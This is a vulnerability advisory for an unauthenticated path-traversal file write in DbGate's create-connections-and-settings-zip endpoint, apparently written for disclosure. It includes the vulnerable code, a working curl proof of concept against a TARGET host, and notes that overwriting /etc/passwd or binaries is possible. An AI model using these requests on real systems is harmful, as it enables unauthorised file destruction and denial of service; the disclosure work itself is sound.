

# Arbitrary File Write via `filePath` in `config/create-connections-and-settings-zip` in DbGate

| Field | Value |
|-------|-------|
| **Project** | [dbgate/dbgate](https://github.com/dbgate/dbgate) |
| **Vulnerability Type** | Path Traversal (CWE-22) |
| **Severity** | Critical — CVSS 3.1 Base Score: **9.1** |
| **CVSS Vector** | `AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:H/A:H` |
| **Affected Versions** | <= 7.2.5 (verified on 7.2.5, latest release as of 2026-08-14) |
| **Authentication** | None (default anonymous deployment) |

---

## Summary

The `config/create-connections-and-settings-zip` endpoint accepts a `filePath` parameter that is passed directly to `zipJsonLinesData()` without any path validation. When the `filePath` does not use the `archive:` prefix, it is treated as an absolute filesystem path. An attacker can overwrite any writable file on the system with ZIP-formatted content, causing denial of service or system corruption.

## Details

In `packages/api/src/controllers/config.js`:

```javascript
createConnectionsAndSettingsZip_meta: true,
async createConnectionsAndSettingsZip({ db, filePath }, req) {
    await dbgateApi.zipJsonLinesData(exportDb, filePath);  // No path validation!
}
```

In `packages/api/src/utility/zipJsonLinesData.js`:

```javascript
function zipDirectory(jsonDb, outputFile) {
    if (typeof outputFile == 'string' && outputFile.startsWith('archive:')) {
        outputFile = path.join(archivedir(), outputFile.substring('archive:'.length));
    }
    const output = fs.createWriteStream(outputFile);  // Arbitrary path when not archive: prefix
}
```

Unlike `exportChart` which uses `checkSecureExportFilePath()` validation, this endpoint has no security check on `filePath`. Any non-`archive:` path is used directly as an absolute filesystem path.

## PoC

Verified on DbGate 7.2.5 Docker (default anonymous deployment, port 3000):

**Step 1: Obtain anonymous JWT**

```bash
curl -s -X POST http://TARGET:3000/auth/login \
  -H "Content-Type: application/json" \
  -d '{"amoid":"none"}'
```

**Step 2: Write ZIP file to arbitrary filesystem path**

```bash
curl -s -X POST http://TARGET:3000/config/create-connections-and-settings-zip \
  -H "Authorization: Bearer <JWT>" \
  -H "Content-Type: application/json" \
  -d '{"db":{"connections":[]},"filePath":"/tmp/poc_config.zip"}'
```
```
true
```

**Step 3: Verify file was created at the specified path**

```
$ ls -la /tmp/poc_config.zip
-rw-r--r-- 1 root root 148 Aug 14 03:17 /tmp/poc_config.zip
```

The file was created at the attacker-specified absolute path (`/tmp/poc_config.zip`) outside DbGate's managed directories. Overwriting critical paths like `/etc/passwd` or application binaries would cause system corruption or denial of service.



---

## Impact

An unauthenticated attacker can write ZIP-formatted content to any writable path on the filesystem, enabling:

- **Denial of Service** — overwriting `/etc/passwd`, system libraries, or application binaries with binary ZIP data
- **System Corruption** — destroying configuration files and critical infrastructure
- **Chainable** — combined with other file read vulnerabilities, this can lead to full system compromise

In the default Docker deployment with anonymous auth, no credentials are required. The written content is ZIP-formatted binary data, making targeted file content manipulation difficult, but arbitrary file overwrite of critical paths is sufficient for denial of service.
